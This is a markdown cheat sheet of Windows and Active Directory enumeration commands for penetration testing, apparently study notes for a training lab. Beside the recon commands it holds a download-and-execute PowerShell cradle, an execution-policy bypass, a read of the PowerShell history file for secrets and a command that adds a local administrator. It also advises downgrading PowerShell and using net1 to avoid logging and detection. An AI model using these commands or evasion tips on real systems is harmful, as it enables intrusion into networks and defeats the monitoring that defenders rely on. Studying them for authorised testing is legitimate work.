 ## Env Commands For Host & Network Recon
```shell-session
hostname
[System.Environment]::OSVersion.Version
wmic qfe get Caption,Description,HotFixID,InstalledOn
ipconfig /all
set
echo %USERDOMAIN%
echo %logonserver%
```
OR
```shell-session
systeminfo
```

## Harnessing PowerShell
```shell-session
Get-Module
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process
Get-ChildItem Env: | ft Key,Value
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```
```shell-session
Get-Module
Get-ExecutionPolicy -List
whoami
Get-ChildItem Env: | ft key,value
```

## Downgrade Powershell (PowerShell 3.0 and after will log in event viewer, so try to downgrade to 2.0 or lower if possible)
```shell-session
Get-host
powershell.exe -version 2
Get-host
get-module
```
- PowerShell Operational Log are found under Applications and Services Logs > Microsoft > Windows > PowerShell > Operational
- Windows PowerShell log located at Applications and Services Logs > Windows PowerShell

## Firewall Checks
```shell-session
netsh advfirewall show allprofiles
```
**Windows Defender Check (from CMD.exe)
```shell-session
sc query windefend
```
**Configuration Settings
```shell-session
Get-MpComputerStatus
```

## Am I Alone?
```shell-session
qwinsta
```


## Network Information
```shell-session
arp -a
ipconfig /all
systeminfo
route print
netsh advfirewall show allprofiles
```
- arp -a
  - Lists all known hosts
- ipconfig /all
  - Prints out adapter settings for the host 
- systeminfo
- route print
  - Displays the routing table identifying known networks and layer three routes shared with the host
- netsh advfirewall show allprofiles
  - Displays the status of the host's firwall. We can determine if it is active and filtering traffic


## Windows Management Instrumentation (WMI)
Cheatsheet: https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4
```shell-session
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
wmic process list /format:list
wmic ntdomain list /format:list
wmic useraccount list /format:list
wmic group list /format:list
wmic sysaccount list /format:list
wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress
```

## Net Commands (easy to detect, use net1 instead of net to not be detected)
- Local and domain users
- Groups
- Hosts
- Specific users in groups
- Domain Controllers
- Password requirements
```shell-session
net accounts
net accounts /domain
net group /domain
net group "Domain Admins" /domain
net group "domain computers" /domain
net group "Domain Controllers" /domain
net group <domain_group_name> /domain
net groups /domain
net localgroup
net localgroup administrators /domain
net localgroup Administrators
net localgroup administrators [username] /add
net share
net user <ACCOUNT_NAME> /domain
net user /domain
net user %username%
net use x: \computer\share
net view
net view /all /domain[:domainname]
net view \computer /ALL
net view /domain
```

## Dsquery
Found at: C:\Windows\System32\dsquery.dll
```shell-session
dsquery user
dsquery computer
dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```
- Last one searches for domain controller
- Second to last searches for users with no password required

**UAC values
Login script will execute = 1
Account is disabled = 2
Password not required = 32
Password can't change = 64
Encrypted text password allowed = 128
Normal user account = 512
Interdomain trust account = 2048
Domain workstation or member server = 4096
Domain controller = 8192
Password does not expire = 65536
Trust for impersonation = 524288
Account may not be impersonated = 1048576

**OID match strings
1. 1.2.840.113556.1.4.803 = value must match completely
2. 1.2.840.113556.1.4.804 = any bit in the chain matches
3. 1.2.840.113556.1.4.1941 = match filters that apply to the Distinguished Name of an object and will search through all ownership and membership entries.

**Logical Operators
&, |, !
(&(1) (2) (!3))
